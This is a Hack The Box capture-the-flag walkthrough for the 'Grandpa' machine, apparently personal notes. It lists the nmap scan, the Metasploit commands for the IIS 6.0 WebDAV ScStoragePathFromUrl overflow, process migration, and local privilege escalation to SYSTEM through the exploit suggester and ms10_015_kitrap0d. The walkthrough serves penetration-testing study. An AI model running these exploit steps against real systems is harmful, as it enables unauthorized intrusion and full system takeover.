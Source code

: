 HTB 9. Grandpa

1. `nmap -T4 -A -p- 10.10.10.14` shows 80 open with version `Microsoft IIS httpd 6.0` (dated version) and poentially risky methods (`TRACE` and `PUT)
2. Go to `10.10.10.14` shows "Under Construction" page.
3. Google `Microsoft IIS httpd 6.0 exploit` finds [Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow](https://www.exploit-db.com/exploits/41738) and [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl).
4. `searchsploit ScStoragePathFromUrl` shows python and ruby modules.
5. Metasploit
	```
	use exploit/windows/iis/iis_webdav_scstoragepathfromurl
	set rhost 10.10.10.14
	set lport 5555
	show targets
	run
	```
	Try running again (4 times)
6.	We are not system. `ps` to show processes. Pick a process that has `NT AUTHORITY\NETWORK SERVICE` with `migrate 1788` and success.
7. Priv esc suggester:
	```
	search suggester
	use 0
	options
	set session 1
	run
	```
	Result: 9 options, go down list and try to see what works
8. start with `ms10_015_kitrap0d` and `set lhost tun0`
9. `getuid` is `NT AUTHORITY\SYSTEM`.